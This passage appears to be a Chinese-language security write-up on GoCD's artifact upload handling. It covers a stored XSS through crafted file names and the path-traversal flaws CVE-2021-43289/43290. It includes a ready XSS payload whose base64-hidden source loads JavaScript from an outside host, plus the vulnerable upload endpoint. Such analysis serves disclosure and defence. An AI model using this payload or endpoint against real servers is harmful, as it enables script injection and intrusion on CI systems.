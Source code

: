 * pipelineName = My-new-Pipeline
* pipelineCounter= 12
* stageName = Test-Report
* stageCounter = 1
* jobName = run-unit-job

文件上传处理的 controller 为 `com.thoughtworks.go.server.controller.ArtifactsController#postArtifact`

上传文件需要是 zip 压缩的，在处理zip 文件名时 对 `..`做了安全处理。

上传文件时，需要知道 `pipelineName`, `pipelineCounter`,`jobName` 等一系列的信息，所以需要 agent 权限，能过获取相关任务信息

服务端找附件是由 artifactDirecotoryChooser 实现的，通过提供 `pipeline` ，`jobname `，取出相应目录下的文件目录

server 实际上会根据 job 名称生成 相对应的文件夹，将 agent 上传文件存储，每次输出渲染都会去相应文件目录下获取文件名，然后渲染

相对路径在 `/var/lib/go-server/artifacts/pipelines` 下

可构造文件名引入第三方 js ，触发xss 攻击

可构造如下文件名，使用 base64编码，需要绕过 `/`使用，`/`会被视为目录，导致利用失败

```
<img src onerror=document.body.appendChild(document.createElement('script')).src=atob('Ly8xMC4yMTEuNTUuMjo0ODA4MC8xLmpz')>
```

## CVE-2021-43289 CVE-2021-43290 文件上传逃逸目录

文件上传 利用，相关controller `com.thoughtworks.go.server.controller.ArtifactsController`

在 post 和 put 处理时都存在问题

```
    @RequestMapping(
        value = {"/repository/restful/artifact/POST/*"},
        method = {RequestMethod.POST}
    )
    
        @RequestMapping(
        value = {"/repository/restful/artifact/PUT/*"},
        method = {RequestMethod.PUT}
    )
```


/repository/restful/artifact/POST/?pipelineName=Pipeline2&pipelineCounter=4&stageName=Stage2&stageCounter=1&buildName=JobName2&filePath=

![60ad7faa783d782fa20a89bb3522c18d.png](/img/gocd/5244b31ac11e44a4a12f5ede720b9547.png)
